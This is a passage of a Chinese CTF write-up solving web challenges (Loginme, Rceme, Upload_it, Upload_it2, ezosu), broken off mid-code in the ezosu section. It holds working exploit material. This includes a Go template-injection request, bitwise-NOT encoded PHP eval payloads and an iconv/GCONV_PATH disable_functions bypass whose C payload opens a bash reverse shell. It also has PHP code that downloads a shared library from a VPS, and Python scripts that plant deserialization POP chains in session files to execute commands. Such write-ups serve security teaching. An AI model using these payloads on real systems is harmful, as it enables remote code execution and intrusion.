


FUMO_on_the_Christmas_tree ast抽象语法树分析pop链
正则匹配
2021强网杯popmaster相似题目
GOFTP 暂无
Loginme 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 GET /admin/index?id=4&age={{.}} HTTP/1.1 Host: 124.71.166.197:18001 Pragma: no-cache Cache-Control: no-cache Upgrade-Insecure-Requests: 1 X-Forwarded:127.0.0.1 Forwarded-For:127.0.0.1 Forwarded:127.0.0.1 X-Forwarded-Host:127.0.0.1 X-remote-IP:127.0.0.1 X-remote-addr:127.0.0.1 True-Client-IP:127.0.0.1 Client-IP:127.0.0.1 X-Real-IP:127.0.0.1 Ali-CDN-Real-IP:127.0.0.1 Cdn-Src-Ip:127.0.0.1 Cdn-Real-Ip:127.0.0.1 CF-Connecting-IP:127.0.0.1 X-Cluster-Client-IP:127.0.0.1 WL-Proxy-Client-IP:127.0.0.1 Proxy-Client-IP:127.0.0.1 Fastly-Client-Ip:127.0.0.1 True-Client-Ip:127.0.0.1 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9 Accept-Encoding: gzip, deflate Accept-Language: zh,zh-TW;q=0.9,en-US;q=0.8,en;q=0.7,zh-CN;q=0.6 Connection: close
go模板注入
Rceme 题目源码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 <?php if (isset ($_POST ['cmd' ])){ $code = $_POST ['cmd' ]; if (preg_match('/[A-Za-z0-9]|\'|"|`|\ |,|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/ixm' ,$code )){ die ('<script>alert(\'Try harder!\');history.back()</script>' ); }else if (';' === preg_replace('/[^\s\(\)]+?\((?R)?\)/' , '' , $code )){ @eval ($code ); die (); } } else { highlight_file(__FILE__ ); var_dump(ini_get("disable_functions" )); } ?>
可以看到正则并没有禁了可见字符以及常见符号
没有禁%![]~,这里可以用取反来绕过正则
第二条正则可以看到是常见的无参rce
最后要绕过disable_function
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 201 202 203 204 205 206 207 208 209 210 211 212 213 214 215 216 217 218 219 220 221 222 223 # 这里记录一下可供命令执行的函数 # php -r "print_r(get_defined_functions());" //获得所有定义函数,再比对 gc_status openssl_pkey_derive sodium_crypto_aead_aes256gcm_decrypt sodium_crypto_aead_aes256gcm_keygen sodium_crypto_aead_chacha20poly1305_encrypt sodium_crypto_aead_chacha20poly1305_ietf_decrypt sodium_crypto_aead_chacha20poly1305_ietf_keygen sodium_crypto_aead_xchacha20poly1305_ietf_keygen sodium_crypto_auth sodium_crypto_auth_verify sodium_crypto_box_keypair sodium_crypto_box_keypair_from_secretkey_and_publickey sodium_crypto_box_publickey sodium_crypto_box_seal sodium_crypto_box_secretkey sodium_crypto_kx_publickey sodium_crypto_kx_seed_keypair sodium_crypto_kx_server_session_keys sodium_crypto_generichash_keygen sodium_crypto_generichash_update sodium_crypto_kdf_derive_from_key sodium_crypto_pwhash sodium_crypto_pwhash_str_verify sodium_crypto_pwhash_scryptsalsa208sha256 sodium_crypto_pwhash_scryptsalsa208sha256_str_verify sodium_crypto_secretbox sodium_crypto_secretbox_open sodium_crypto_secretstream_xchacha20poly1305_init_push sodium_crypto_secretstream_xchacha20poly1305_init_pull sodium_crypto_secretstream_xchacha20poly1305_rekey sodium_crypto_shorthash_keygen sodium_crypto_sign_detached sodium_crypto_sign_ed25519_sk_to_curve25519 sodium_crypto_sign_keypair_from_secretkey_and_publickey sodium_crypto_sign_publickey sodium_crypto_sign_publickey_from_secretkey sodium_crypto_sign_verify_detached sodium_crypto_stream_keygen sodium_add sodium_increment sodium_memzero sodium_unpad sodium_hex2bin sodium_base642bin strptime nl_langinfo sys_getloadavg net_get_interfaces lchown array_key_first apache_lookup_uri apache_getenv apache_get_version xxhash32 exif_read_data exif_tagname exif_imagetype gettext dgettext bindtextdomain dngettext bind_textdomain_codeset gmp_import gmp_intval gmp_add gmp_mul gmp_div_q gmp_div gmp_divexact gmp_abs gmp_sqrt gmp_root gmp_pow gmp_perfect_square gmp_prob_prime gmp_gcdext gmp_invert gmp_legendre gmp_cmp gmp_random gmp_random_bits gmp_and gmp_com gmp_setbit gmp_testbit gmp_scan1 gmp_hamdist gmp_binomial posix_kill posix_getppid posix_setuid posix_seteuid posix_setgid posix_setegid posix_getlogin posix_setsid posix_getpgid posix_uname posix_ctermid posix_isatty posix_mkfifo posix_access posix_getgrgid posix_getpwuid posix_setrlimit posix_errno posix_initgroups readline_callback_handler_install readline_callback_handler_remove readline_on_new_line shmop_read shmop_size shmop_delete socket_create socket_create_pair socket_set_nonblock socket_listen socket_write socket_getsockname socket_connect socket_bind socket_send socket_sendto socket_set_option socket_last_error socket_import_stream socket_sendmsg socket_cmsg_space socket_addrinfo_connect socket_addrinfo_explain socket_setopt msg_send msg_remove_queue msg_set_queue sem_get sem_release shm_attach shm_detach shm_has_var shm_remove_var opcache_invalidate opcache_is_script_cached opcache_get_status imap_open strlen error_reporting set_error_handler create_function bcadd bcsub bcmul bcdiv bcmod bcpow bcsqrt bcscale bccomp bcpowmod preg_match preg_replace phpinfo strstr escapeshellarg getenv putenv call_user_func unserialize var_dump highlight_file show_source ini_get sapi_windows_vt100_support end sapi_windows_cp_set sapi_windows_cp_get sapi_windows_cp_is_utf8 sapi_windows_cp_conv wddx_serialize_value wddx_serialize_vars wddx_packet_start wddx_packet_end wddx_add_vars wddx_deserialize apache_child_terminate getallheaders curl_init curl_copy_handle curl_version curl_setopt curl_setopt_array curl_exec curl_getinfo curl_error curl_errno curl_close curl_strerror curl_multi_strerror curl_share_strerror curl_reset curl_escape curl_unescape curl_pause curl_multi_init curl_multi_add_handle curl_multi_remove_handle curl_multi_select curl_multi_exec curl_multi_getcontent curl_multi_info_read curl_multi_close curl_multi_errno curl_multi_setopt curl_share_init curl_share_close curl_share_setopt curl_share_errno curl_file_create imagegrabwindow imagegrabscreen
先看无参rce,构造payload
这里getallheaders()函数并没有被禁,可以使用
1 getallheaders返回当前请求的所有请求头信息数组
构造payload
1 2 3 4 5 6 // 一般运用 POST: cmd=eval(end(getallheaders())); HTTP: evil: phpinfo();
getenv()也没有被禁
1 2 3 4 5 getenv() ：获取环境变量的值(在PHP7.1之后可以不给予参数), getenv 可以用来收集信息(phpinfo页面)，实际利用一般无法达到命令执行效果，因为默认的 php.ini 中， variables_order 值为： GPCS POST: cmd=var_dump(getenv(phpinfo()));
对于取反,这里做点测试
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 php > echo urlencode(~"system" ); %8 C%86 %8 C%8 B%9 A%92 php > echo urlencode(~"whoami" ); %88 %97 %90 %9 E%92 %96 php > (~urldecode("%8C%86%8C%8B%9A%92" ))(~urldecode("%88%97%90%9E%92%96" )); desktop-n4q9tbd\xxxx php > [~urldecode("%8C%86%8C%8B%9A%92" )][!urldecode("%ff" )](~urldecode("%88%97%90%9E%92%96" )); desktop-n4q9tbd\xxxx
所以getenv()这里我们可以构造payload为
1 2 3 cmd=[~%89%9E%8D%A0%9B%8A%92%8F][!%ff]([~%98%9A%8B%9A%91%89][!%ff]([~%8F%97%8F%96%91%99%90][!%ff]())); cmd=[var_dump][0]([getenv][0]([phpinfo][0]()));
成功拿到phpinfo页面

然而getenv()一般并不能rce,只能找其他方法
上面说了eval(end(getallheaders()));这个由于eval()不能像[‘eval’][0]这样调用,所以我们要另寻他法
又发现create_function()函数没有被禁
1 2 3 4 5 6 7 8 9 10 11 12 13 14 关于该函数利用简单如下 create_function('$name','echo $name."A"') 1. $action($arg,''); 2. $action('',$str); 以上代码子在变量都可控时有可能造成rce 这里控制$action为 create_function 关于第一种可以传入 $arg = "){}phpinfo();/*"; 第二种可以传入 $str = "2;}phpinfo();/*";
且call_user_func函数也没有被禁
1 2 3 4 5 6 7 call_user_func传参只能是多参数 像call_user_func(回调函数,参数,参数) 或者是call_user_func(...[数组(包含了回调函数,参数,参数)])像这样 比如: $a = array("create_function","","echo 123;}eval($_GET[a]);/*"); call_user_func(...$a); 上面可以实现getshell
现在我们有call_user_func,create_function,getallheaders,end等函数没有被禁
下面开始payload构造:
这里直接给出思路
我们利用end(getallheaders())可以获得http头的最后一个值
然而call_user_func需要的参数是一个数组,此时我们可以利用php的反序列化
我们在http头里放一段数组 的序列化代码,利用end(getallheaders())拿到它,再利用unserialize()对其进行反序列化,再传入call_user_func即可实现getshell
payload如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 POST /?a=phpinfo(); HTTP/1.1 Host: 124.70.199.17:8001 Pragma: no-cache Cache-Control: no-cache Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9 Accept-Encoding: gzip, deflate Accept-Language: zh,zh-TW;q=0.9,en-US;q=0.8,en;q=0.7,zh-CN;q=0.6 Connection: close Content-Type: application/x-www-form-urlencoded Content-Length: 346 Host1: a:3:{i:0;s:15:"create_function";i:1;s:0:"";i:2;s:27:"echo 123;}eval($_GET[a]);/*";} cmd=[~%9c%9e%93%93%a0%8a%8c%9a%8d%a0%99%8a%91%9c][!%FF](...[~%8a%91%8c%9a%8d%96%9e%93%96%85%9a][!%FF]([~%9a%91%9b][!%FF]([~%98%9a%8b%9e%93%93%97%9a%9e%9b%9a%8d%8c][!%FF]()))); /* cmd=call_user_func(...unserialize(end(getallheaders()))); */
putenv没有被禁
可以利用iconv来绕过disable_function
先在在/tmp目录下上传一个gconv-modules文件
1 2 module PAYLOAD// INTERNAL ../../../../../../../../tmp/payload 2 module INTERNAL PAYLOAD// ../../../../../../../../tmp/payload 2
payload.c文件
1 2 3 4 5 6 7 8 #include <stdio.h> #include <stdlib.h> void gconv () void gconv_init () system("bash -c 'bash -i >& /dev/tcp/xxx/8889 0>&1'" ); }
编译后在/tmp目录下上传payload.so
1 gcc payload.c -o payload.so -shared -fPIC
代码执行以下代码触发
1 putenv("GCONV_PATH=/tmp");highlight_file("php://filter/read=convert.iconv.payload.utf-8/resource=/tmp/payload.so");
为了完成以上操作,要用到php的两个函数
1 2 curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);可用于下载文件 SplFileObject::fwrite()函数是PHP中的标准PHP库(SPL)的内置函数，用于写入文件
分别把两个文件上传上去,vps监听
1 $url="http://101.43.35.153/payload.so";$ch = curl_init();curl_setopt($ch, CURLOPT_URL, $url);curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);curl_setopt($ch, CURLOPT_HEADER, 0);$output = curl_exec($ch);$a = new SplFileObject("/tmp/payload.so","w");$a->fwrite($output);
1 $url="http://101.43.35.153/gconv-modules";$ch = curl_init();curl_setopt($ch, CURLOPT_URL, $url);curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);curl_setopt($ch, CURLOPT_HEADER, 0);$output = curl_exec($ch);$a = new SplFileObject("/tmp/gconv-modules","w");$a->fwrite($output);
执行以下代码触发反弹shell
1 putenv("GCONV_PATH=/tmp");highlight_file("php://filter/read=convert.iconv.payload.utf-8/resource=/tmp/payload.so");
这里搭个docker环境
1 2 3 4 5 git clone https://github.com/AntSwordProject/AntSword-Labs.git cd AntSword-Labs/bypass_disable_functions/9 docker-compose up -d docker ps # docker id docker cp index.php 22a37351feac:/var/www/html/index.php
vps部署好相关文件
exp:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 ''' POST /?a=phpinfo(); HTTP/1.1 Host: localhost:18080 Connection: close Content-Type: application/x-www-form-urlencoded Content-Length: 175 rxxx: a:3:{i:0;s:15:"create_function";i:1;s:0:"";i:2;s:27:"echo 123;}eval($_GET[a]);/*";} cmd=[~%9c%9e%93%93%a0%8a%8c%9a%8d%a0%99%8a%91%9c][!%FF](...[~%8a%91%8c%9a%8d%96%9e%93%96%85%9a][!%FF]([~%9a%91%9b][!%FF]([~%98%9a%8b%9e%93%93%97%9a%9e%9b%9a%8d%8c][!%FF]()))); ''' ''' POST /?a=$url="http://vpsip/payload.so";$ch=curl_init();curl_setopt($ch,CURLOPT_URL,$url);curl_setopt($ch,CURLOPT_RETURNTRANSFER,1);curl_setopt($ch,CURLOPT_HEADER,0);$output=curl_exec($ch);$a=new+SplFileObject("/tmp/payload.so","w");$a->fwrite($output); HTTP/1.1 Host: localhost:18080 Connection: close Content-Type: application/x-www-form-urlencoded Content-Length: 175 rxxx: a:3:{i:0;s:15:"create_function";i:1;s:0:"";i:2;s:27:"echo 123;}eval($_GET[a]);/*";} cmd=[~%9c%9e%93%93%a0%8a%8c%9a%8d%a0%99%8a%91%9c][!%FF](...[~%8a%91%8c%9a%8d%96%9e%93%96%85%9a][!%FF]([~%9a%91%9b][!%FF]([~%98%9a%8b%9e%93%93%97%9a%9e%9b%9a%8d%8c][!%FF]()))); ''' ''' POST /?a=$url="http://vpsip/gconv-modules";$ch=curl_init();curl_setopt($ch,CURLOPT_URL,$url);curl_setopt($ch,CURLOPT_RETURNTRANSFER,1);curl_setopt($ch,CURLOPT_HEADER,0);$output=curl_exec($ch);$a=new+SplFileObject("/tmp/gconv-modules","w");$a->fwrite($output); HTTP/1.1 Host: localhost:18080 Connection: close Content-Type: application/x-www-form-urlencoded Content-Length: 175 rxxx: a:3:{i:0;s:15:"create_function";i:1;s:0:"";i:2;s:27:"echo 123;}eval($_GET[a]);/*";} cmd=[~%9c%9e%93%93%a0%8a%8c%9a%8d%a0%99%8a%91%9c][!%FF](...[~%8a%91%8c%9a%8d%96%9e%93%96%85%9a][!%FF]([~%9a%91%9b][!%FF]([~%98%9a%8b%9e%93%93%97%9a%9e%9b%9a%8d%8c][!%FF]()))); ''' ''' POST /?a=putenv("GCONV_PATH=/tmp");highlight_file("php://filter/read=convert.iconv.payload.utf-8/resource=/tmp/payload.so"); HTTP/1.1 Host: localhost:18080 Connection: close Content-Type: application/x-www-form-urlencoded Content-Length: 175 rxxx: a:3:{i:0;s:15:"create_function";i:1;s:0:"";i:2;s:27:"echo 123;}eval($_GET[a]);/*";} cmd=[~%9c%9e%93%93%a0%8a%8c%9a%8d%a0%99%8a%91%9c][!%FF](...[~%8a%91%8c%9a%8d%96%9e%93%96%85%9a][!%FF]([~%9a%91%9b][!%FF]([~%98%9a%8b%9e%93%93%97%9a%9e%9b%9a%8d%8c][!%FF]()))); '''
getshell

参考
取反getshell
无参rce
disable_function绕过
iconv绕过disable_func
Upload_it 题目源码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 <?php include_once "../vendor/autoload.php" ;session_start(); define("UPLOAD_PATH" , "/tmp/sandbox" ); if (!file_exists(UPLOAD_PATH)) { @mkdir(UPLOAD_PATH); } function make_user_upload_dir ( $md5_dir = md5($_SERVER ['REMOTE_ADDR' ] . session_id()); $upload_path = UPLOAD_PATH . "/" . $md5_dir ; @mkdir($upload_path ); $_SESSION ["upload_path" ] = $upload_path ; } if (empty ($_SESSION ["upload_path" ])) { make_user_upload_dir(); } if (!empty ($_FILES ['file' ])) { $file = $_FILES ['file' ]; if ($file ['size' ] < 1024 * 1024 ) { if (!empty ($_POST ['path' ])) { $upload_file_path = $_SESSION ["upload_path" ]."/" .$_POST ['path' ]; $upload_file = $upload_file_path ."/" .$file ['name' ]; } else { $upload_file_path = $_SESSION ["upload_path" ]; $upload_file = $_SESSION ["upload_path" ]."/" .$file ['name' ]; } if (move_uploaded_file($file ['tmp_name' ], $upload_file )) { echo "OK! Your file saved in: " . $upload_file ; } else { echo "emm...Upload failed:(" ; } } else { echo "too big!!!" ; } } else if (!empty ($_GET ['phpinfo' ])) { phpinfo(); exit (); } else { echo <<<CODE <html> <head> <title>Upload</title> </head> <body> <h1>Upload files casually XD</h1> <form action="index.php" method="post" enctype="multipart/form-data"> FILE: <input type="file" name="file"> PATH: <input type="text" name="path"> <input type="submit"> </form> <hr> <h3>or...Just look at the phpinfo?</h3> <a href="./index.php?phpinfo=1">go to phpinfo</a> </body> </html> CODE ;}
这里我们可以控制文件生成的路径,造成任意文件覆盖
1 2 3 4 5 6 7 8 9 10 11 12 13 14 # composer.json { "name": "sctf2021/upload", "authors": [ { "name": "AFKL", "email": "upload@qq.com" } ], "require": { "symfony/string": "^5.3", "opis/closure": "^3.6" } }
这题难度不大,都是考的php必备的基础知识
漏洞点在题目环境中的symfony/string依赖中,所以我们首先打开命令行输入composer install配置好环境
主要思路:构造反序列化链生成session文件,再将此文件利用文件上传覆盖题目环境中的session文件,再次带着cookie访问index.php触发反序列化造成命令执行
分析如下:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 ... public function __toString ( { if (\is_string($this ->value)) { return $this ->value; } try { return $this ->value = ($this ->value)(); } catch (\Throwable $e ) { ...
在该文件的魔术方法__toString()中存在一个函数名可控的函数执行($this->value)();
本来这个地方只能打打phpinfo页面造成信息泄露而并没有很大的危害
但是题目环境中还引入了一个依赖opis/closure,使得它能通过反序列化后执行闭包函数造成命令执行
1 2 3 4 5 6 7 8 opis/closure,该库用于序列化闭包和匿名函数,例如: include_once "../vendor/opis/closure/autoload.php";# 引用该依赖 $func = function () { system("cat /flag"); }; $raw = \Opis\Closure\serialize($func);#序列化闭包函数 $unseri = unserialize($raw);#反序列化,此时该变量放入类成员属性中序列化
构造exp如下,生成session文件:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 <?php namespace Symfony \Component \String { class LazyString { private $value ; public function __construct ($value $this ->value = $value ; } } } namespace { include_once "../vendor /opis /closure /autoload .php "; ini_set("display_errors" , "On" ); error_reporting(E_ALL | E_STRICT); $func = function ( system("cat /flag" ); }; use Symfony \Component \String \LazyString ; $raw = \Opis\Closure \serialize($func ); $lazy = new LazyString(unserialize($raw )); session_save_path("." ); session_start(); $_SESSION ["upload_path" ] = $lazy ; }
回到index.php文件代码,可以看到payload在反序列化后赋给了$_SESSION[“upload_path”]变量,随后被当作字符串拼接触发__toString(),即可造成命令执行
1 $upload_file_path = $_SESSION["upload_path"]."/".$_POST['path'];
exp:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 import os,requestsurl = "http://127.0.0.1:8001" proxy = {'http' : 'http://127.0.0.1:8080' } cookie = {'PHPSESSID' : 'rxxxx' } proxy_test = requests.get(url, proxies=proxy, cookies=cookie) code = b'''<?php namespace Symfony\Component\String{ class LazyString{ private $value; public function __construct($value){ $this->value = $value; } } } namespace { include_once "../vendor/opis/closure/autoload.php"; $func = function () {system(\"type D:flag.txt\");}; use Symfony\Component\String\LazyString; $raw = new \Opis\Closure\SerializableClosure($func); $lazy = new LazyString($raw); //session_save_path("."); //session_start(); //$_SESSION["upload_path"] = $lazy; print_r(serialize($lazy)); } ''' payload = 'upload_path|' with open ('exp.php' , 'wb+' ) as f: f.write(code) payload += os.popen('php exp.php' ).read() print ('[debug] payload is: ' + payload)os.popen('del exp.php' ) file = {'file' : ('sess_rxxxx' , payload)} data = {'path' : '../../../sessions' } postfile = requests.post(url, files=file, data=data, proxies=proxy) print ('[debug] post evil file ..' )getflag = requests.post(url, files={'file' : ('emptyfile' , b'emptycontent' )}, cookies=cookie, proxies=proxy) print (getflag.text[getflag.text.find('flag{' ):getflag.text.find('}' ,getflag.text.find('flag{' ))+1 ])
Upload_it2 题目源码与上一个差不多
在index.php文件中声明了一个sandbox类,该类存在__call()方法可以任意调用本类中存在的方法,还存在一个后门方法backdoor()可以任意包含文件
禁止了__wakeup(),__destruct()方法,意味着我们不能直接反序列化这个类
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 <?php include_once "../vendor/autoload.php" ;session_save_path('./sessions/' ); define("UPLOAD_PATH" , "./tmp/sandbox" ); error_reporting(0 ); session_start(); define("UPLOAD_PATH" , "/tmp/sandbox" ); if (!file_exists(UPLOAD_PATH)) { @mkdir(UPLOAD_PATH); } class sandbox private $evil ; public $upload_path ; public function make_user_upload_dir ( $md5_dir = md5($_SERVER ['REMOTE_ADDR' ] . session_id()); $this ->upload_path = UPLOAD_PATH . "/" . $md5_dir ; @mkdir($this ->upload_path); $_SESSION ["upload_path" ] = $this ->upload_path; } public function has_upload_dir ( return !empty ($_SESSION ["upload_path" ]); } public function __wakeup ( throw new Error ("NO NO NO" ); } public function __destruct ( } public function __call ($func , $value if (method_exists($this , $func )) { call_user_func_array( [$this , $func ], $value ); } } private function backdoor ( include_once $this ->evil; } } $box = new sandbox();if (!$box ->has_upload_dir()) { $box ->make_user_upload_dir(); } if (!empty ($_FILES ['file' ])) { $file = $_FILES ['file' ]; if ($file ['size' ] < 1024 * 1024 ) { if (!empty ($_POST ['path' ])) { $upload_file_path = $_SESSION ["upload_path" ]."/" .$_POST ['path' ]; $upload_file = $upload_file_path ."/" .$file ['name' ]; } else { $upload_file_path = $_SESSION ["upload_path" ]; $upload_file = $_SESSION ["upload_path" ]."/" .$file ['name' ]; } if (move_uploaded_file($file ['tmp_name' ], $upload_file )) { echo "OK! Your file saved in: " . $upload_file ; } else { echo "emm...Upload failed:(" ; } } else { echo "too big!!!" ; } } else if (!empty ($_GET ['phpinfo' ])) { phpinfo(); exit (); } else { echo <<<CODE <html> <head> <title>Upload</title> </head> <body> <h1>Upload files casually XD</h1> <form action="index.php" method="post" enctype="multipart/form-data"> FILE: <input type="file" name="file"> PATH: <input type="text" name="path"> <input type="submit"> </form> <hr> <h3>or...Just look at the phpinfo?</h3> <a href="./index.php?phpinfo=1">go to phpinfo</a> </body> </html> CODE ;}
composer.json文件中,并没有导入opis/closure依赖,这意味着我们不能像上一题那样序列化闭包函数来利用$this->value = ($this->value)();该点
1 2 3 4 5 6 7 8 9 10 11 12 13 14 # composer.json { "name": "sctf2021/upload2", "authors": [ { "name": "AFKL", "email": "upload2@qq.com" } ], "require": { "symfony/string": "^5.3" } }
该题其实比上题要更简单些,pop链很清晰:
字符串拼接触发__toString方法,调用$this->value = ($this->value)();点,这里我们令$this->value为数组['sanbox', 'backdoor'],这样($this->value)()会去调用sanbox类的静态方法backdoor,很明显该类没有这个静态方法(注意backdoor是成员方法),触发sanbox类的__call()方法,紧接着去调用backdoor方法,即可造成任意文件包含
这里做一个测试来验证对一个数组进行函数调用会发生什么
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 <?php class A public $a ; public function backdoor ( echo 'u win !' ; } public function __call ($func , $value if (method_exists($this , $func )) { call_user_func_array( [$this , $func ], $value ); } } } $evil = array ('A' ,'backdoor' );($evil )();
运行该测试文件弹出Non-static method A::backdoor() should not be called statically,意思是没有可用的静态方法A::backdoor()可供调用,此时会触发__call()方法,接着去调用该类的backdoor()方法,打印输出
理论上是这么讲的,但实际上没有该__call()方法也可以调用backdoor()方法
测试中直接A::backdoor();也可以调用成员方法
下面是exp:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 import os,requests url = "http://127.0.0.1:8001" proxy = {'http' : 'http://127.0.0.1:8080' } cookie = {'PHPSESSID' : 'rxxxx' } proxy_test = requests.get(url, proxies=proxy, cookies=cookie) code = b'' '<?php namespace Symfony\Component\String{ class LazyString{ private $value; public function __construct($value){ $this->value = $value; } } } namespace { class sandbox { private $evil; public function __construct(){ $this->evil = "./flag"; } } use Symfony\Component\String\LazyString; $value = array(new sandbox(),"backdoor"); $lazy = new LazyString($value); print_r(serialize($lazy)); } ' '' payload = 'upload_path|' with open('exp.php' , 'wb+' ) as f: f.write(code) payload += os.popen('php exp.php' ).read() print ('[debug] payload is: ' + payload)os.popen('del exp.php' ) file = {'file' : ('sess_rxxxx' , payload)} data = {'path' : '../../../sessions' } postfile = requests.post(url, files=file, data=data, proxies=proxy) print ('[debug] post evil file ..' )getflag = requests.post(url, files={'file' : ('emptyfile' , b'emptycontent' )}, cookies=cookie, proxies=proxy) print (getflag.text[getflag.text.find('flag{' ):])
构造恶意序列化代码覆盖session文件,访问index.php触发反序列化
这里记录一下写脚本时遇到的坑
1 2 3 4 5 6 http头的Cookie中有两个长得很像的PHPSESS: PHPSESSION php服务器给每名用户下发的会话session PHPSESSID session.name 指定会话名以用做 cookie 的名字。只能由字母数字组成，默认为 PHPSESSID。 SESSION文件常以sess_PHPSESSID命名
ezosu 该题给了部分源码,需要我们起个docker环境,将容器中的文件copy到本地进行分析
1 2 3 docker-compose up -d # 起docker环境 docker ps # 记录containerID docker copy <containerID>:/app ./app # 复制文件到本地
进入题目网址,不断测试功能,在设置中抓到一个可疑的包
重放进行分析,对/config接口进行post,在源码中找到对应文件
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 <?php namespace ImiApp \ApiServer \Controller ;use Imi \App ;use Imi \Db \Db ;use Imi \Redis \Redis ;use Imi \Server \Http \Controller \HttpController ;use Imi \Server \Http \Route \Annotation \Action ;use Imi \Server \Http \Route \Annotation \Controller ;use Imi \Server \Http \Route \Annotation \Route ;use Imi \Server \View \Annotation \HtmlView ;use Imi \Server \View \Annotation \View ;use Imi \Server \Session \Session ;class IndexController extends HttpController public function index ( { return $this ->response->redirect("/index.html" ); } public function config ( { $method = $this ->request->getMethod(); $res = [ "msg" => "ok" , "status" => "200" , "value" => true ]; if ($method === "POST" ) { Session::clear(); $configData = $this ->request->getParsedBody(); foreach ($configData as $k => $v ) { Session::set($k , $v ); } } else if ($method === "GET" ) { $configData = Session::get(); if ($configData != null ) { $res ["value" ] = $configData ; } else { $res = [ "msg" => "Not Find" , "status" => "404" , "value" => null ]; } } else { $res = [ "msg" => "Unsupported method" , "status" => "405" , "value" => 